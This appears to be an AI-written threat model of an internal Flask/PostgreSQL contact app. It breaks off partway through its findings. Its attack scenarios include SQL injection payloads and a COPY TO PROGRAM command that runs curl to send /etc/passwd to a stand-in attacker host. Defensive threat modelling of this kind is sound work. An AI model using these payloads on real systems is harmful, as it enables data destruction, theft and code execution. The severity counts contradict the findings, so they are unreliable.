




I have all the skill files and the input prompt. This is a small system (well under 5 components: nginx, Flask app, PostgreSQL, plus external actors — about 4 in-scope components), no public exposure, no regulated data, and the user explicitly asked for a focused, proportionate model. Per the skill's scaling guidelines, this is a Small System using the 2-layer diagram approach (L1+L4), with the user also explicitly requesting all 4 DFD layers, STRIDE-LM, OWASP Risk Rating, MITRE/CWE-tagged findings, and the report-template sections. I'll produce a single complete document.

I am operating in a constrained mode (text only, no file writes, no agent spawning), so I'll execute all phases inline and deliver one consolidated threat model.

---

# Threat Model — Internal Customer Contact Manager

**Version:** 2026-06-06 | **Methodology:** STRIDE-LM + PASTA + OWASP Risk Rating | **Mode:** Solo (small system) | **Analyst:** Tim Wilcoxson

---

# I. Executive Summary

**Security Posture Rating: CONCERNING**

This is a small, LAN-only internal CRUD tool, and its limited exposure genuinely caps its risk — there is no public internet attack surface, the data is mildly sensitive but unregulated, and the user base is ~20 known employees. That context legitimately downgrades several threats that would be critical on a public system. However, the application carries two textbook, code-confirmed defects that no amount of network isolation fully neutralizes: **raw SQL built with f-strings** (SQL injection) and a **`SECRET_KEY` committed to the repository** (session cookie forgery). Combined with a single shared **DB superuser** connection (no privilege separation) and **no rate limiting/MFA**, an attacker who reaches the LAN — or a malicious/curious insider among the 20 users — has a short, realistic path from a normal session to full database control.

| Severity | Count | Scoring System |
|----------|-------|----------------|
| CRITICAL | 1 | OWASP Risk Rating |
| HIGH | 4 | OWASP Risk Rating |
| MEDIUM | 4 | OWASP Risk Rating |
| LOW | 2 | OWASP Risk Rating |
| **Total** | **11** | |

**Top 3 Risks:**

1. **SQL Injection via f-string queries (TM-001)** — Affected: Flask App / `/contacts`. Any authenticated employee (or anyone who forges a session) can read, modify, or destroy the entire `contacts` and `users` tables, and because the app connects as the DB superuser, run arbitrary SQL including `COPY ... TO PROGRAM` for OS command execution.
2. **Session forgery via committed SECRET_KEY (TM-002)** — Affected: Flask App / session cookies. The signing key is in the repo; anyone with repo access (every developer, plus anyone who ever cloned it) can mint a valid session cookie for any user and bypass login entirely.
3. **Shared DB superuser connection (TM-003)** — Affected: Flask App → PostgreSQL. There is no privilege separation, so any app-level compromise (e.g., TM-001) immediately becomes full database-server compromise, and the blast radius extends to OS-level code execution on the VM.

| Metric | Value |
|--------|-------|
| Components Assessed | 4 |
| Data Flows Mapped | 6 |
| Trust Boundaries Identified | 3 |
| Threat Actors Modeled | 3 |
| Unique Findings | 11 |

**Quick Wins (low effort, high impact):**
- Replace f-string SQL with parameterized queries (psycopg2 `%s` placeholders) — kills TM-001.
- Rotate `SECRET_KEY` out of the repo into an environment variable / secrets file; purge from git history — kills TM-002.
- Create a least-privilege DB role (`SELECT/INSERT/DELETE` on two tables only) and point the app at it instead of the superuser — shrinks blast radius of TM-001/TM-003.
- Add basic login rate limiting (Flask-Limiter) — addresses TM-005.
- Set `HttpOnly`, `Secure`, `SameSite=Lax` on the session cookie — addresses TM-007.

---

# II. System Overview

**System Purpose:** An internal web tool that lets roughly 20 employees manage a customer contact list (names, emails, phones, free-text notes). Three endpoints provide login and CRUD operations over contacts.

**Scope Statement:**
- **In scope:** nginx reverse proxy, the Flask/gunicorn application, the PostgreSQL 15 database, the data flows between them, and the corporate-LAN trust boundary.
- **Out of scope (assumed):** corporate LAN security controls (switching, NAC, segmentation), employee endpoint security, the git hosting platform itself, OS patching cadence of the Ubuntu VM, and physical data-center security. These are noted as dependencies, not analyzed in depth.

**Technology Stack Summary:**

| Layer | Technology | Version | Notes |
|-------|-----------|---------|-------|
| Reverse Proxy | nginx (TLS termination on :443) | unspecified | Forwards to app over loopback (assumed) |
| App Server | Flask + gunicorn | unspecified | 3 endpoints; signed-cookie sessions |
| Database | PostgreSQL | 15 | Same VM, localhost:5432 |
| Host OS | Ubuntu | unspecified | Single VM, office data center |
| Auth | Flask signed-cookie sessions | — | `SECRET_KEY` committed in repo |
| Data access | Raw SQL via Python f-strings | — | No parameterization |

**Deployment Model:** Single Ubuntu VM, on-premises office data center, monolithic single-tier-on-one-host architecture. Reachable only over the corporate LAN — **no public internet exposure**. No cloud provider, no IaC, no containers, no orchestration.

---

# III. Architecture Diagram (Structural)

Per `mermaid-layers.md` §6, this is a **small system (4 components, 6 flows)**, so the 2-layer strategy applies: a combined structural diagram (L1 with embedded trust/identity and data concerns) plus a separate L4 threat overlay. The user explicitly requested all four DFD layers, so I produce L1, L2, L3 as distinct layers below and L4 in Section IV.

## L1 — Architecture

## L2 — Trust & Identity

**Trust boundaries:**
1. **Corporate LAN boundary** — separates the office network from anything else. The system relies on this perimeter for its primary protection (no public exposure). This is a perimeter-trust assumption, not zero trust.
2. **Ubuntu VM host boundary** — everything on the VM (nginx, app, DB) shares one host; a compromise of any process can reach the others over loopback.
3. **App process trust zone** — the only place authentication/authorization is enforced. Note: nginx → app is plaintext HTTP over loopback, and the app → DB connection carries full superuser privilege.

## L3 — Data

**Encryption state notes:** Employee↔nginx is TLS-encrypted (`[ENC]`). The nginx→app and app→DB hops are plaintext (`[PLAIN]`) but run over the VM loopback, so the practical exposure is limited to host-local attackers and is acceptable on a single host. Session cookies are HMAC-signed (integrity) but **not encrypted** — Flask's default signed cookies are readable by the client; the `SECRET_KEY` provides forgery protection only, and that protection is void because the key is public.

---

# IV. Risk Overlay Diagram

## L4 — Threat Overlay

**Component Risk Mapping:**

| Component | Risk Level | Finding IDs | STRIDE-LM Categories | Top CWE |
|-----------|-----------|-------------|----------------------|---------|
| Flask App | CRITICAL | TM-001, TM-002, TM-004, TM-005, TM-007, TM-009, TM-010 | S, T, R, I, D, E, LM | CWE-89 |
| PostgreSQL 15 | CRITICAL | TM-003, TM-006, TM-008 | T, I, E, LM | CWE-269 |
| nginx | LOW | TM-011 | D | CWE-400 |
| Employee (actor) | — | TM-002, TM-005 (source) | S | — |

**Critical Data Flow Highlights:**
1. **App → DB (f-string SQL as superuser)** — the single most dangerous flow; carries the SQLi → superuser → RCE chain.
2. **Employee → nginx → App (login)** — the entry flow; no rate limiting makes it brute-forceable.
3. **App → Employee (Set-Cookie)** — signed with a public key, so it is forgeable.

---

# V. Asset Inventory

**Data Assets:**

| Asset | Classification | Storage Location | Encryption at Rest | Encryption in Transit | Access Controls | Retention |
|-------|---------------|-----------------|-------------------|---------------------|-----------------|-----------|
| Customer contacts (name, email, phone, notes) | CONFIDENTIAL | PostgreSQL `contacts` | None (assumed — not stated) | TLS to client; plaintext loopback internally | Session-gated; no row-level controls | Undefined |
| User credentials (username, password hash) | RESTRICTED | PostgreSQL `users` | None (hash only; no DB-level encryption stated) | Plaintext loopback internally | DB superuser (app) | Undefined |
| Session SECRET_KEY | RESTRICTED | Source repository (cleartext) | None | N/A | Anyone with repo access | Until rotated |
| Session cookies | CONFIDENTIAL | Client browser | N/A | TLS to client | HMAC-signed (forgeable, see TM-002) | Session lifetime |

**Data Flow Summary:**

| Source | Destination | Protocol | Data Type | Sensitivity | Finding Refs |
|--------|------------|----------|-----------|-------------|-------------|
| Employee | nginx | HTTPS | Credentials, contact CRUD | CONFIDENTIAL | TM-005, TM-007 |
| nginx | Flask App | HTTP (loopback) | Proxied requests | CONFIDENTIAL | TM-011 |
| Flask App | PostgreSQL | TCP (loopback) | f-string SQL queries | CONFIDENTIAL | TM-001, TM-003 |
| Flask App | Employee | HTTPS | Set-Cookie session | CONFIDENTIAL | TM-002, TM-007 |
| Developer | Flask App | SSH/deploy | Code + config (incl. SECRET_KEY) | RESTRICTED | TM-002, TM-010 |
| Developer | PostgreSQL | psql | DB admin | RESTRICTED | TM-003 |

---

# VI. Threat Actor Profiles

Proportionate to a LAN-only internal tool, three actors are relevant. Nation-state and organized-crime profiles are excluded — there is no public exposure and the data is unregulated/low-value, making them implausible primary actors.

### Curious / Malicious Insider (authenticated employee)

| Attribute | Value |
|-----------|-------|
| Type | Insider (one of the ~20 legitimate users) |
| Motivation | Curiosity, snooping on colleagues' customer data, petty grievance, or data theft on departure |
| Capability | 2 |
| Access Level | Authenticated (valid session) |
| Linked Findings | TM-001, TM-004, TM-006, TM-009 |

This is the **primary** actor. Every one of the 20 users already holds a valid session and can reach `/contacts`, which is the launch point for the SQLi chain.

### Negligent Insider / Developer with Repo Access

| Attribute | Value |
|-----------|-------|
| Type | Insider (developer/operator) |
| Motivation | Unintentional (committed secret), or rogue/departing developer |
| Capability | 3 |
| Access Level | Privileged (repo, SSH, DB) |
| Linked Findings | TM-002, TM-003, TM-010 |

Anyone who has ever cloned the repo holds the `SECRET_KEY`. This actor can forge sessions without ever touching the login flow.

### LAN-Adjacent Attacker (compromised endpoint / contractor / wandering device)

| Attribute | Value |
|-----------|-------|
| Type | External-turned-internal (foothold on the corporate LAN) |
| Motivation | Lateral movement, data theft, ransomware staging |
| Capability | 3 |
| Access Level | Network-adjacent, initially unauthenticated |
| Linked Findings | TM-005, TM-008, TM-011 |

A phished employee laptop or a malicious device on the LAN can reach :443. With no rate limiting, this actor can brute-force or credential-stuff the login, then inherit the insider attack surface.

---

# VII. Findings

Ordered by severity, then risk score descending.

### [CRITICAL] TM-001: SQL Injection via f-string query construction

| Field | Value |
|-------|-------|
| **ID** | TM-001 |
| **Severity** | CRITICAL |
| **Affected Component(s)** | Flask App (`/contacts`), PostgreSQL |
| **STRIDE-LM Category** | T, I, E, LM |
| **MITRE ATT&CK** | T1190 (Exploit Public-Facing App) |
| **CWE** | CWE-89 (SQL Injection) |
| **OWASP Category** | A03:2021 Injection / API1:2023 |
| **CIA Impact** | C: H · I: H · A: H |
| **PASTA Likelihood** | 5 — Trivially exploitable. The contacts endpoint builds SQL with f-strings; any authenticated user (the primary insider actor, every one of the ~20) can submit a crafted `name`/`email`/`notes` value. Automatable with sqlmap. |
| **PASTA Impact** | 5 — Full read/write/delete over both tables; because the app connects as DB superuser, escalates to OS command execution (see TM-003). Drives the highest dimension (operational + confidentiality both High). |
| **OWASP Risk Rating** | 25 (CRITICAL) |
| **Confidence** | HIGH (stated in the prompt: "raw SQL string formatting today (f-strings)") |
| **Remediation** | R-001 |
| **Source** | threat-model |

**Attack Scenario:**
1. Insider logs in normally and opens the contacts UI (or calls `POST /contacts` directly).
2. Submits a payload such as `'; DROP TABLE contacts; --` or a `UNION SELECT username, password_hash, ... FROM users` to exfiltrate credential hashes.
3. Because no parameterization exists, the payload executes verbatim.
4. Pivots to OS RCE via `COPY (SELECT '') TO PROGRAM 'bash -c ...'` (available because the connection is superuser — see TM-003).

**Existing Mitigations:** None. No WAF, no input validation described.

**Recommended Remediation:** Replace all f-string SQL with parameterized queries (psycopg2 `cursor.execute(sql, params)` with `%s` placeholders), or adopt an ORM (SQLAlchemy). Add server-side input validation as defense in depth.

---

### [CRITICAL] TM-003: Application connects to database as shared superuser

| Field | Value |
|-------|-------|
| **ID** | TM-003 |
| **Severity** | CRITICAL |
| **Affected Component(s)** | Flask App → PostgreSQL |
| **STRIDE-LM Category** | E, LM, T, I |
| **MITRE ATT&CK** | T1078 (Valid Accounts), T1068 (Exploitation for Privilege Escalation) |
| **CWE** | CWE-269 (Improper Privilege Management); CWE-732 (Incorrect Permission Assignment) |
| **OWASP Category** | A04:2021 Insecure Design / A05:2021 Security Misconfiguration |
| **CIA Impact** | C: H · I: H · A: H |
| **PASTA Likelihood** | 4 — Not directly exploitable alone, but it is the standing condition that converts any app compromise (TM-001) into total host compromise. Reliably reachable once TM-001 fires. |
| **PASTA Impact** | 5 — Superuser permits `COPY TO/FROM PROGRAM` (OS command execution as the postgres user), reading any DB, dropping any table, and disabling logging. Full VM compromise blast radius. |
| **OWASP Risk Rating** | 20 (CRITICAL) |
| **Confidence** | HIGH (stated: "one shared 'admin' DB superuser that the app connects as") |
| **Remediation** | R-002 |
| **Source** | threat-model |

**Attack Scenario:**
1. Attacker achieves SQL execution (TM-001) or obtains the app's DB connection string.
2. Runs `COPY (SELECT 1) TO PROGRAM 'curl http://attacker/$(cat /etc/passwd)'` or installs a reverse shell — superuser allows it.
3. Now has OS-level foothold on the VM, which also hosts nginx and the DB files directly.

**Existing Mitigations:** None — no privilege separation.

**Recommended Remediation:** Create a dedicated app role with only `SELECT/INSERT/DELETE` on `contacts` and `SELECT` on `users` (no DDL, no superuser, no `pg_execute_server_program`). Reserve the superuser strictly for human admins via psql.

---

### [HIGH] TM-002: Session forgery via SECRET_KEY committed to repository

| Field | Value |
|-------|-------|
| **ID** | TM-002 |
| **Severity** | HIGH |
| **Affected Component(s)** | Flask App (session signing) |
| **STRIDE-LM Category** | S, E, T |
| **MITRE ATT&CK** | T1552 (Unsecured Credentials), T1078 (Valid Accounts) |
| **CWE** | CWE-798 (Use of Hard-coded Credentials); CWE-639 (Authorization Bypass Through User-Controlled Key) |
| **OWASP Category** | A07:2021 Identification and Authentication Failures |
| **CIA Impact** | C: H · I: H · A: L |
| **PASTA Likelihood** | 4 — The developer/repo actor (or anyone who cloned the repo) holds the signing key. Forging a Flask session cookie with a known key is a one-liner (`flask-unsign` / `itsdangerous`). Bounded by who has repo access. |
| **PASTA Impact** | 4 — Complete authentication bypass: forge a session for any/admin user, then inherit the full TM-001 chain. Not an availability hit. |
| **OWASP Risk Rating** | 16 (HIGH) |
| **Confidence** | HIGH (stated: "SECRET_KEY committed in the repo") |
| **Remediation** | R-003 |
| **Source** | threat-model |

**Attack Scenario:**
1. Actor reads `SECRET_KEY` from the repo (current checkout or git history).
2. Crafts and signs a session cookie asserting an authenticated identity using the known key.
3. Sends the forged cookie to `/contacts` — the app accepts it as a valid session, bypassing `POST /login` entirely.

**Existing Mitigations:** None.

**Recommended Remediation:** Generate a fresh high-entropy `SECRET_KEY`, load it from an environment variable or secrets file (not committed), and purge the old key from git history (`git filter-repo`). Treat the old key as permanently compromised. Consider server-side sessions (Flask-Session) so cookie integrity is not the sole gate.

---

### [HIGH] TM-004: Mass data exfiltration / destruction of contact records

| Field | Value |
|-------|-------|
| **ID** | TM-004 |
| **Severity** | HIGH |
| **Affected Component(s)** | Flask App (`/contacts`), PostgreSQL |
| **STRIDE-LM Category** | I, T, D |
| **MITRE ATT&CK** | T1213 (Data from Information Repositories), T1485 (Data Destruction) |
| **CWE** | CWE-200 (Exposure of Sensitive Information) |
| **OWASP Category** | A01:2021 Broken Access Control |
| **CIA Impact** | C: M · I: H · A: M |
| **PASTA Likelihood** | 4 — Any of the 20 authenticated users can `GET /contacts` to dump the full list (no per-record ownership), and `DELETE /contacts` to remove records. No injection even required for bulk read/delete. |
| **PASTA Impact** | 4 — Loss/leak of the entire customer contact dataset; no backups mentioned, so deletion may be unrecoverable. Reputational and operational hit. |
| **OWASP Risk Rating** | 16 (HIGH) |
| **Confidence** | HIGH |
| **Remediation** | R-004, R-008 |
| **Source** | threat-model |

**Attack Scenario:**
1. Authenticated insider calls `GET /contacts` and exports the entire dataset.
2. Optionally calls `DELETE /contacts` to wipe records out of spite or to cover tracks.

**Existing Mitigations:** Session gate (any valid user passes it). No record-level authorization, no audit log, no backup mentioned.

**Recommended Remediation:** Add audit logging of read/delete actions tied to user identity (also addresses TM-009). Confirm regular DB backups exist and are restorable. Consider whether all 20 users genuinely need delete rights (least privilege at the app layer).

---

### [HIGH] TM-005: No rate limiting on /login (credential brute force / stuffing)

| Field | Value |
|-------|-------|
| **ID** | TM-005 |
| **Severity** | HIGH |
| **Affected Component(s)** | Flask App (`POST /login`) |
| **STRIDE-LM Category** | S, D |
| **MITRE ATT&CK** | T1110 (Brute Force) |
| **CWE** | CWE-307 — not in the skill reference set; mapped to **CWE-521 (Weak Password Requirements)** / CWE-287 (Improper Authentication), both in-reference. |
| **OWASP Category** | A07:2021 Identification and Authentication Failures / API2:2023 |
| **CIA Impact** | C: H · I: M · A: M |
| **PASTA Likelihood** | 4 — LAN-adjacent attacker or insider can script unlimited login attempts; no lockout, no rate limit, no MFA. Bounded only by password strength (unspecified). |
| **PASTA Impact** | 4 — Account takeover yields the full authenticated attack surface (TM-001/004). |
| **OWASP Risk Rating** | 16 (HIGH) |
| **Confidence** | HIGH (stated: "No WAF, no rate limiting, no MFA") |
| **Remediation** | R-005 |
| **Source** | threat-model |

**Attack Scenario:**
1. Attacker on the LAN scripts POST requests to `/login` with a password list against a known username.
2. With no throttling/lockout, runs until a match is found.
3. Uses the valid session for the rest of the chain.

**Existing Mitigations:** TLS protects credentials in transit only.

**Recommended Remediation:** Add Flask-Limiter (e.g., 5 attempts/min/IP + per-account backoff), account lockout with alerting, and enforce a password policy. MFA is recommended but proportionate effort can start with rate limiting + lockout.

---

### [MEDIUM] TM-006: Credential hash theft and offline cracking

| Field | Value |
|-------|-------|
| **ID** | TM-006 |
| **Severity** | MEDIUM |
| **Affected Component(s)** | PostgreSQL (`users`) |
| **STRIDE-LM Category** | I, S |
| **MITRE ATT&CK** | T1110 (Brute Force — offline cracking), T1552 (Unsecured Credentials) |
| **CWE** | CWE-328 (Use of Weak Hash) — applies only if a weak/fast hash is used |
| **OWASP Category** | A02:2021 Cryptographic Failures |
| **CIA Impact** | C: H · I: M · A: L |
| **PASTA Likelihood** | 3 — Requires first achieving DB read (via TM-001/TM-002). The hash algorithm is unspecified; if MD5/SHA-1/unsalted, cracking is fast. Conditional on a prior compromise. |
| **PASTA Impact** | 4 — Cracked passwords enable durable account takeover and likely credential reuse against other corporate systems. |
| **OWASP Risk Rating** | 12 (HIGH-band edge; scored MEDIUM-to-HIGH = **12 → HIGH band**) |
| **Confidence** | MEDIUM (hash algorithm not stated — assumption-dependent) |
| **Remediation** | R-006 |
| **Source** | threat-model |

> Note: 3×4 = 12 lands in the HIGH band per the OWASP table. Recorded as HIGH for the count; flagged MEDIUM-confidence because the hashing scheme is unknown.

**Attack Scenario:**
1. Attacker dumps the `users` table via TM-001 or TM-002.
2. Runs hashcat against the hashes; if the scheme is weak/unsalted, recovers plaintext passwords.
3. Reuses passwords here and potentially on other internal services.

**Existing Mitigations:** Passwords are hashed (not plaintext) — partial control. Strength depends on the unknown algorithm.

**Recommended Remediation:** Confirm and enforce a slow, salted KDF (bcrypt/argon2/scrypt). Migrate any legacy hashes on next login.

---

### [MEDIUM] TM-007: Insecure session cookie attributes

| Field | Value |
|-------|-------|
| **ID** | TM-007 |
| **Severity** | MEDIUM |
| **Affected Component(s)** | Flask App (session cookie) |
| **STRIDE-LM Category** | I, S |
| **MITRE ATT&CK** | T1539 (Steal Web Session Cookie) |
| **CWE** | CWE-200 (Exposure of Sensitive Information) |
| **OWASP Category** | A05:2021 Security Misconfiguration |
| **CIA Impact** | C: M · I: M · A: L |
| **PASTA Likelihood** | 3 — Default Flask cookies may lack `Secure`/`HttpOnly`/`SameSite` unless explicitly set; an XSS bug or a non-TLS path could leak the cookie. Some assumptions needed. |
| **PASTA Impact** | 3 — Session hijack of a single user; bounded by the same authenticated surface. |
| **OWASP Risk Rating** | 9 (MEDIUM) |
| **Confidence** | MEDIUM (attributes not stated; defaults assumed) |
| **Remediation** | R-007 |
| **Source** | threat-model |

**Attack Scenario:**
1. A reflected/stored XSS or a downgraded HTTP path exposes the session cookie.
2. Attacker replays the cookie to impersonate the user.

**Existing Mitigations:** TLS at nginx reduces in-transit interception.

**Recommended Remediation:** Set `SESSION_COOKIE_HTTPONLY=True`, `SESSION_COOKIE_SECURE=True`, `SESSION_COOKIE_SAMESITE='Lax'`. Add a session idle/absolute timeout.

---

### [MEDIUM] TM-008: Plaintext data flows and data-at-rest exposure on the VM

| Field | Value |
|-------|-------|
| **ID** | TM-008 |
| **Severity** | MEDIUM |
| **Affected Component(s)** | nginx→App and App→DB flows; PostgreSQL data files |
| **STRIDE-LM Category** | I, T |
| **MITRE ATT&CK** | T1530 (Data from Cloud Storage — analogous local store), T1005 not in set → use T1213 (Data from Information Repositories) |
| **CWE** | CWE-311 (Missing Encryption of Sensitive Data); CWE-312 (Cleartext Storage of Sensitive Information) |
| **OWASP Category** | A02:2021 Cryptographic Failures |
| **CIA Impact** | C: M · I: M · A: L |
| **PASTA Likelihood** | 3 — Requires a host foothold on the VM (e.g., via TM-003). Once there, loopback traffic and the DB data directory are readable in cleartext. Conditional. |
| **PASTA Impact** | 3 — Exposure of contacts + hashes from disk/memory; contained to this dataset. |
| **OWASP Risk Rating** | 9 (MEDIUM) |
| **Confidence** | MEDIUM |
| **Remediation** | R-009 |
| **Source** | threat-model |

**Attack Scenario:**
1. Attacker gains OS access (TM-003 chain).
2. Reads PostgreSQL data files directly or sniffs loopback SQL traffic — both cleartext.

**Existing Mitigations:** Loopback-only internal traffic limits exposure to host-local attackers. TLS protects the external hop.

**Recommended Remediation:** Enable disk/volume encryption (LUKS) on the VM; restrict file permissions on the DB data directory and the config holding DB credentials. (Loopback TLS is optional and likely disproportionate here.)

---

### [MEDIUM] TM-009: Insufficient logging and no action attribution (repudiation)

| Field | Value |
|-------|-------|
| **ID** | TM-009 |
| **Severity** | MEDIUM |
| **Affected Component(s)** | Flask App |
| **STRIDE-LM Category** | R |
| **MITRE ATT&CK** | T1070 (Indicator Removal) |
| **CWE** | CWE-532 (Insertion of Sensitive Information into Log File) — inverse concern; primary mapping is plain-text: "insufficient security logging." No exact in-reference ID for missing logs → noted for manual verification. |
| **OWASP Category** | A09:2021 Security Logging and Monitoring Failures |
| **CIA Impact** | C: L · I: M · A: L |
| **PASTA Likelihood** | 3 — Absence of audit logging is the default state; an insider can read/delete contacts with no trace. |
| **PASTA Impact** | 3 — Cannot attribute misuse or reconstruct an incident; impedes response and accountability. |
| **OWASP Risk Rating** | 9 (MEDIUM) |
| **Confidence** | MEDIUM (no logging described; absence assumed) |
| **Remediation** | R-010 |
| **Source** | threat-model |

**Attack Scenario:**
1. Insider deletes or exfiltrates contacts.
